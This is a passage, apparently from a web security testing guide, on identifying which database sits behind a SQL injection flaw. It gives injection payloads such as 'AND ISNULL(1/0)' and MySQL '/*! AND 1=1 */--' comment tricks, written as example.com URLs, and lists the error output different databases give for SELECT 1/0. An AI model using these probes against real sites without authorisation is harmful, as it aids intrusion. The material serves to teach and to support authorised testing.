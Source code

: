 The following comparison should be true:

`http://www.example.com/news.php?id=1`

`http://www.example.com/news.php?id=1 AND 'aa'=CONCAT('a','a')`

`http://www.example.com/news.php?id=1 AND 'aa'='a'||'a'`

* Postgres:

The following comparison should be true:

`http://www.example.com/news.php?id=1`

`http://www.example.com/news.php?id=1 AND 'aa'='a'||'a'`

## Fingerprinting through SQL Dialect Injection

Each DBMS extends Standart SQL with a set of native statements. Such a set define a SQL Dialect available to develipers to preoperly query a backend DBMS engine. Beside of lack of portability, this flaw gives a way to accurately fingerprint a DBMS through a SQLi, or even better a SQL Dialect Injection. SQL Dialect Injection is an attack vector where only statements, operators and peculiarities of a SQL Dialect are used in a SQLi.
As an example what does `SELECT 1/0` returns  on different DBMS?
* MySQL: `NULL`
* Oracle: `ORA-00923: FROM keyword not found where expected`
* Postgres: `ERROR: division by zero`
* SQL Server: `Server: Msg 8134, Level 16, State 1, Line 1 Divide by zero error encountered`

We can exploit this peculiarities to identify MySQL DBMS. To accomplish this task the following comparison shall be true:
```
http://www.example.com/news.php?id=1 
http://www.example.com/news.php?id=1 AND ISNULL(1/0)
```

Let see more about this fingerprinting technique. 

* MySQL/MariaDB:
One of MySQL peculiarities is that when a comment block ('/**/') contains an exlamation mark ('/*! sql here*/') it is interpreted by MySQL, and is considered as a normal comment block by other DBMS.

So, if you determine that `http://www.example.com/news.php?id=1` is vulnerable to a BLIND SQL Injection the following comparison should be `'TRUE`:
```
 http://www.example.com/news.php?id=1
 http://www.example.com/news.php?id=1 AND 1=1--
 ```

When backend engine is MySQL following WEB PAGES should contains the same content of vulnerable URL

`http://www.example.com/news.php?id=1 /*! AND 1=1 */--`

on the other side the following should be completely different:

`http://www.example.com/news.php?id=1 /*! AND 1=0 */--`

* PostgreSQL:
